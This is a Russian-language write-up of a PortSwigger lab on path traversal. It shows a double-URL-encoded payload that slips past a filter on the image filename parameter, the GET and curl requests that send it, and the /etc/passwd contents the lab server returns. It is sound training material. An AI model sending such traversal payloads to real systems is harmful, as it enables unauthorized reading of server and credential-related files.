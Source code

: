```yaml
---
title: "File path traversal, traversal sequences stripped with superfluous URL-decode"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-superfluous-url-decode"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует передаваемые параметры со специальными символами. Перед обработкой происходит декодирование `URL` значений.

Необходимо вывести содержимое файла `/etc/passwd`.

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net
```

## Solution

Из задания понятно, что нужно смотреть загрузку фотографий, поэтому сразу беру нужный запрос:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/1.png){: height="200" .align-center}

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=58.jpg
```

Сервер фильтрует специальные символы в запросе. Перед проверкой он декодирует `URL` кодировку. Почему бы тогда не закодировать пейлоад дважды?) Для этого удобно использовать [Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(/disabled)URL_Encode(true)URL_Encode(false/breakpoint)&input=Li4vLi4vLi4vZXRjL3Bhc3N3ZA):

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/2.png){: height="200" .align-center}

Я получил следующий пейлоад:

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Передам его в качестве значения в `GET`-запросе:

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Я получил ошибку:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/3.png){: height="500" .align-center}

Содержимое можно получить с помощью `curl`:

```bash
cu63:~/ $ curl https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image\?filename\=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
